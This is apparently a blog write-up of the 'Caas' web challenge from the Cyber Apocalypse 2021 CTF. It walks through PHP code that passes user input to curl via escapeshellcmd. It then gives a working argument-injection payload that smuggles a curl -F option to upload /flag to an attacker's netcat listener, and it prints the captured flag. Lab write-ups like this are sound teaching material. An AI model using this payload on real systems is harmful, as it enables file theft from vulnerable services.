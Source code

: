 ```yaml
---
title: Caas
date: 2021-04-25 12:52:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


Looking at the name of the challenge name, I suspect it has something to do with `curl`. Which could be vulnerable to _command injection_. However, let's check the source code before making any assumption. (\* ^ ω ^)

The webpage looks like some sort of service using presumably `curl` to query IP addresses:
![](/assets/img/caas_web.png#center)

## Vulnerability
Let's take a look at `CurlController.php`:

```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```

It takes an `ip` from the body without any sanitization and creates a new Command Model, so let’s check what the file `CommandModel.php` does:

```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

Ok, we have a main point of interest. We can see that constructor builds the `curl` command from the input parameter.

We can’t inject arbitrary commands to this because of the [escapeshellcmd](https://www.php.net/manual/en/function.escapeshellcmd.php) function but we can add arbitrary parameters. Looking at the [curl manual pages](https://curl.se/docs/manpage.html) I quickly found the -F option to exfiltrate a file. There is also this [cheatsheet](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#curl) which shows how you can bypass the escapeshellcmd function.

## Exploitation
With that information, we can simply request the flag and send it to our host machine. Type the following command after setting up a nc listener on port 6666:

```bash
curl -d "ip=-F flag=@/flag http://[MY-IP]:6666/" http://[DOCKER-IP]/api/curl
```

We receive the flag:

> CHTB{f1le_r3trieval_4s_a_s3rv1ce

٩(◕‿◕｡)۶
